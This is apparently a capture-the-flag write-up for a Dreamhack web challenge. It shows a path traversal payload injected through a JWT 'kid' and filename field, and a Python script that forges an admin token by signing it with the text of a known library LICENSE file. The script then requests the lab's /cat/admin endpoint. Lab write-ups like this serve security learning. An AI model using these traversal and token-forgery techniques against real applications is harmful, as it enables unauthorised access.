









# solution

This is hard challenge for me (an newbiee). There are lot of file we need to read carefully. First i will give the overview to get the flag, we need to access two urls below to get full flag:
<br>
I will try to bypass each url one by one, first is **/flag**. In jwt we need two things **filename not undefined and the dir of flag.txt after change its name**
<br>
we know the dir but dont know the name of flag.txt after changing. We can handle it with intruder's burpsuite.
**Note:** the url we are in is managed by index.js, if we use **/cat** then cat.js . And we are in dir **/keys** it will helpful when you choose payload to use below.
<br>
take a close look on index.js

```
const filename = req.query.fn;
        if (filename !== undefined) {
            const token = await sign(filename);
            return res.send(`Hey this is new token ${token}`);
        }
```

So we can make a new token by using fn parameter and existing file. The jwt code have **kid** field. My experience said its some kinds of lfi so i try with fn parameter.
<br>
<br>
<br>
hmm so i can lfi to the dir i want. Then i have a payload for this ( you use intruder for two characters in quotation marks)

```
../../../../../../home/cat/deploy/flag{12}.txt
```

<br>
access /flag url with this jwt, you can get part one of the flag.
<br>

The next part is quite differcult for me, i dont really know how to bypass this url. I used some methods like ( brute force key, use none key,...) but nothing helpful. After get some hints, i know that in the archive file that i download have a file that have secret key, so i can use that file to make my own jwt code. Dir for that file is /node_modules/jsonwebtoken/LICENSE. Here the paython code to get the remain flag.

```
import jwt
import string
import requests

SECRET_KEY = """The MIT License (MIT)

Copyright (c) 2015 Auth0, Inc. <support@auth0.com> (http://auth0.com)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
"""

headers = {"kid": "../node_modules/jsonwebtoken/LICENSE"}
data = {
  "filename": "../node_modules/jsonwebtoken/LICENSE",
  "username": "cat_master",
  "iat": 1707707182
}
FLAG_2_TOKEN = jwt.encode(data, SECRET_KEY, headers=headers, algorithm="HS256")
print(FLAG_2_TOKEN)

target_url = "http://host3.dreamhack.games:22212"
res = requests.get(f"{target_url}/cat/admin", cookies={"session": f"{FLAG_2_TOKEN}"})

print(res.text)
```

<br>
